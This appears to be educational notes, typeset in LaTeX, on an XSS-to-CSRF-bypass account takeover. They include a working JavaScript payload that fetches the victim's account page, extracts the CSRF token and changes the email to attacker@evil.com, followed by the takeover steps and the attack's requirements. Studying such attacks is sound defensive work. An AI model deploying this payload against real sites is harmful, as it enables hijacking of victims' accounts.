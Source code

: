 \documentclass{article}
\begin{document}
\begin{itemize}
\item \textbf{The Attack Flow}

\subitem \textbf{Step 1: Steal the CSRF Token}
\begin{lstlisting}[frame=single]
// Fetch user's account page
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();

// Extract CSRF token from HTML
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
\end{lstlisting}

\subitem \textbf{Step 2: Use Token to Change Email}
\begin{lstlisting}[frame=single]
// Make authorized request with stolen token
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=attacker@evil.com')
};
</script>
\end{lstlisting}

\item \textbf{Why This Works}

\subitem \textbf{CSRF Protection Bypass}
\begin{itemize}
\item \textbf{Normal CSRF Protection}: Stops cross-site requests without token
\item \textbf{XSS Bypass}: Script runs in same origin $\rightarrow$ can read token from page
\item \textbf{Result}: Malicious request appears legitimate
\end{itemize}

\subitem \textbf{Account Takeover Steps}
\begin{enumerate}
\item Victim views malicious comment
\item Script runs with victim's session
\item Steals CSRF token from victim's own account page
\item Changes email to attacker-controlled address
\item Attacker uses "password reset" to new email
\item Complete account compromise
\end{enumerate}

\item \textbf{Key Points}

\subitem \textbf{Attack Requirements}
\begin{itemize}
\item XSS vulnerability anywhere on site
\item Sensitive function with CSRF protection
\item CSRF token visible in page HTML
\item No HttpOnly cookies for tokens
\end{itemize}


\end{itemize}
\end{document}
